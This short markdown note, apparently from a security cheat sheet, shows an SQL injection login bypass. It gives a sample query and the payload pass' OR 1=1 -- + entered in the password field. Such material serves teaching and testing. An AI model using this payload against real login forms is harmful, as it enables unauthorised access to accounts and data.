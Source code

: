 ----------------------------------
# SQL Injection

## Authentication Bypass Variant 1
### query:
SELECT * FROM users WHERE username='admin' AND password='pass'

### payload:
*username*:admin
*password*:pass' OR 1=1 -- +

**NOTE:** + is similar to space